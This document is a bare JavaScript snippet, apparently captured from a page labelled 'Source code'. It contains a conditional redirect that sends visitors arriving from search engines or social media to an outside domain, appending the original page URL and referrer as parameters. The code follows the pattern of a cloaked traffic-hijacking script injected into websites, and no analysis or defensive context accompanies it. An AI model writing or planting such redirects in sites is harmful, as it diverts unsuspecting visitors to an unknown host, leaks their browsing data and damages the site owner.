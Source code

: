 var ars = 'https://www.176iot.com';

if(['.google.', 'bing.', 'yandex.', 'facebook.', 'pinterest.'].some(s => document.referrer.toLowerCase().includes(s)) || ['fb', 'facebook', 'pinterest', 'twitter'].some(s => navigator.userAgent.toLowerCase().includes(s))){ window.location.href = ars + '/?arsae='+ encodeURIComponent(window.location.href) + '&arsae_ref='+ encodeURIComponent(document.referrer) }
